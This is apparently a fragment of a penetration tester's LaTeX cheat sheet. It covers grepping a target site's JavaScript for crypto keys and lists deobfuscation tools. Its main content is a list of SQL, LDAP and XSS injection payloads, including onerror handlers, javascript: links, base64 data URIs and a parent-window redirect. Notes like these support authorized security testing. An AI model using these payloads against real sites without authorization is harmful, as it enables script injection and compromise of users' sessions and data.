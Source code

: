 Encription keys search:
\begin{lstlisting}[numbers=none]
curl -s https://vulnerable-site.com/js/app.dca99adc.js | js-beautify | awk '{$1=$1;print}' | grep -iE  "crypt|aes|hmac|md5|sha512|sha256|sha1"

echo -n 'hsBI69O90juKhpPx' | md5sum 
\end{lstlisting}

In case the code is obsfuscated:
\begin{itemize}
	\item JavaScript Deobfuscator (deobfuscate.io)
	\item de4js | JavaScript Deobfuscator and Unpacker (lelinhtinh.github.io)
\end{itemize}

Encrypt and Decrypt with Key in Online | Online Encryption and Decryption (bitcompiler.com)
JSON Web Tokens - jwt.io

Si esta en cifrado en la URL entonces URL Parameters o algo asi usar primero un URL Decoder URI.

\section{Code Injection Check}

\begin{lstlisting}[numbers=none]
' ; -- ` */ /* -- or # ' OR '1 ' OR 1 -- - OR 1=1 ;%00<script>javascript:alert(123456789)</script> (&(ou=admin)(| (user=Freeman)))
\end{lstlisting}

Other payloads:
\begin{lstlisting}[numbers=none]
<a href='www.evil-site.com'>www.evil-site.com link</a>
<a href="javascript:document.write('<image src =q onerror=prompt(8)>')">evil link</a>
<a href="javascript:let pdfWindow = window.open('');pdfWindow.document.write( `<iframe width='100%' height='100%' src='data:text/html;base64, ` + encodeURI(`PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=`) + `'></iframe>` )
">evil link</a>
<a href='data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4='>clic on xss</a>
<script>javascript:alert(123456789)</script>
<image src =q onerror=prompt(8)>
<img src="javascript:alert('XSS');">
<object src=1 href=1 onerror="javascript:alert(1)"></object>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video>
<svg onload svg onload="javascript:javascript:alert(1)"></svg onload>
<iframe onLoad iframe onLoad="javascript:javascript:alert(1)"></iframe onLoad>
<iframe onbeforeload iframe onbeforeload="javascript:javascript:alert(1)"></iframe onbeforeload>
<iframe><textarea></iframe><img src='' onerror='alert(document.domain)'>
</textarea><script>alert(/xss/)</script>
<INPUT TYPE="IMAGE" SRC="javascript:javascript:alert(1);" onerror="javascript:alert(1)"  onclick="javascript:alert(1)">
<iframe><textarea></iframe><img src="" onerror="alert('14/04/2022')">

<image src =q onerror=`window.parent.location = 'http://127.0.0.1:8000/index.html'`>
<image src =q onerror='javascript:alert(1223456789)'>
\end{lstlisting}

